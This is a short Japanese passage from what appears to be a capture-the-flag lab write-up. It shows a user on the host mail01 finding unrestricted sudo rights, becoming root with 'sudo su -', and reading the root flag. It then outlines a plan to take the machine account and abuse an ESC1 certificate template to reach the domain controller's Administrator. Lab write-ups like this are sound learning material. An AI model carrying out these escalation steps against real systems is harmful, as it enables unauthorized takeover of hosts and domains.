 ```sh

Last login: Sun Jul 30 08:53:36 2023 from 10.10.1.254
peter.turner@hybrid.vl@mail01:~$ 

```

## DCで探索する
[[DC#peter.turnerでログイン]]に移行する

# Privilege Escalation
なんか、peterアカウントでDCアカウントを探索した結果、普通に証明書が脆弱だけど、マシンアカウントを作成できないから、まずはmail01で管理者になって、mail01のアカウントでDCのAdministratorのアカウントのESC1チケットを取得することにする

## SSHでログインする
そういえば、sudoってどうなってるんだろう
```sh
peter.turner@hybrid.vl@mail01:~$ sudo -l
[sudo] password for peter.turner@hybrid.vl: 
Matching Defaults entries for peter.turner@hybrid.vl on mail01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User peter.turner@hybrid.vl may run the following commands on mail01:
    (ALL) ALL

```
え！全部のコマンドsudo権限実行できるじゃん！！

じゃあ、管理者になれるってこと？！
```sh
peter.turner@hybrid.vl@mail01:~$ sudo su -
root@mail01:~# ls
flag.txt  snap
root@mail01:~# 
```
なれた！

rootのフラグを取得する
```sh
root@mail01:~# cd /root
root@mail01:~# ls
flag.txt  snap
root@mail01:~# cat flag.txt
<SNIP>
```
# Post Privilege Escalation

##  DCのAdministratorのESC1を取得する
ってことは、mail01のマシンアカウント取得できないかな

